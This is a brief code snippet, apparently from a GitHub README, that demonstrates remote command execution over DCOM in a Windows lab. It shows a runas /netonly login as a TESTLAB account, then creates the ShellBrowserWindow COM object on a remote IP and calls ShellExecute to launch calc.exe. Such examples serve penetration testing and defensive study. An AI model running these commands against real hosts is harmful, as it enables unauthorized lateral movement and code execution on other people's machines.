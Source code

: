 **Example auth:**

```text
PS> runas /netonly /user:TESTLAB\josh "powershell.exe"
```

  
**Example code execution:**

```text
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```


